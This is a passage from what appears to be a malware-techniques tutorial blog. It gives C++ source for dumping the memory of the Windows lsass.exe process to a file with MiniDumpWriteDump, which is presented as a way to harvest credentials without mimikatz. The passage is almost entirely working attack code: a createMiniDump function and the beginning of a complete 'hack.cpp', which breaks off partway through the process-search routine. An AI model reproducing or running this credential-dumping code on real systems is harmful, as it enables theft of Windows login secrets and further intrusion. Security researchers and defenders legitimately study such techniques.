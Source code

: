 Then, create dump:      

```cpp
// minidump lsass.exe
BOOL createMiniDump() {
  bool dumped = FALSE;
  int pid = findMyProc("lsass.exe");
  HANDLE ph = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, 0, pid);
  HANDLE out = CreateFile((LPCTSTR)"c:\\temp\\lsass.dmp", GENERIC_ALL, 0,
  NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (ph && out != INVALID_HANDLE_VALUE) {
    dumped = MiniDumpWriteDump(ph, pid, out, (MINIDUMP_TYPE)0x00000002, NULL, 
    NULL, NULL);
    printf(dumped ? "successfully dumped to lsaas.dmp :)\n" : 
    "failed to dump :(\n");
  } 
  return dumped; 
}
```

So, the full source code is looks like this `hack.cpp`:      

```cpp
/*
 * hack.cpp - Dump lsass without mimikatz. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/2023/05/11/malware-tricks-28.html
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>
#include <dbghelp.h>
#pragma comment (lib, "dbghelp.lib")

int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
```